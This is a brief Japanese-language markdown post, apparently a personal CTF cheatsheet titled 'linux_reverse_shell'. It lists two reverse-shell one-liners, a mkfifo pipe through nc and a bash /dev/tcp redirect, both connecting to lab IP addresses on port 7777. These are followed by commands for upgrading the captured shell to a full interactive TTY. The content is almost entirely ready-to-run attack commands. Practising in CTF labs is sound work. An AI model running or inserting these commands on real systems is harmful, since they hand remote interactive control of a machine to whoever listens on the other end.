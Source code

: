 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
tags: CTF Common cheatsheet linux "reverse shell"
---
```

## リバースシェル
コマンド1
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7777 >/tmp/f
```
コマンド2
```sh
bash -c "bash -i >& /dev/tcp/10.10.14.14/7777 0>&1"
```
## シェルのアップグレード
```
script /dev/null -c bash
```

## シェルをさらにアップグレード
```
(Ctrl + z)
stty raw -echo ; fg
```
